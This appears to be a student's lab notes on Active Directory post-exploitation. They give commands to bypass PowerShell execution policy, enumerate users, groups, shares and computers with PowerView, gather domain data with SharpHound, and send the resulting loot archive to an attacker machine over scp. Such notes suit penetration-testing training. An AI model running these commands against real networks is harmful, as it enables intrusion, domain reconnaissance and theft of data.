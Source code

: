 # Post Exploitation

## Enumeration w/ Powerview

Bypasses the execution policy of PowerShell allowing you to easily run scripts:

```powershell
powershell -ep bypass
```

Import PowerView.ps1;

Enumerate Domain Users:

```powershell
Get-NetUser | select cn
```

Enumerate Domain Groups:

```powershell
Get-NetGroup -GroupName *admin*
```



Here's a cheatsheet with a lot of PowerView related commands:

[https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)



Find Shares:

```powershell
Invoke-ShareFinder
```

Get AD Computers' Information:

```powershell
Get-NetComputer -FullData
```

```powershell
Get-NetComputer -FullData | select operatingsystem, operatingsystemversion
```

## Enumeration w/ BloodHound

### Getting loot w/ SharpHound

Bypass Execution Policy

```powershell
powershell -ep bypass
```

Import SharpHound;

Getting Loot:

```powershell
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

Send the loot to your Attacker machine (With SCP):

```powershell
scp C:\Users\Administrator\20241116222926_loot.zip kali@10.11.101.30:/home/kali/thm/postexploit
```

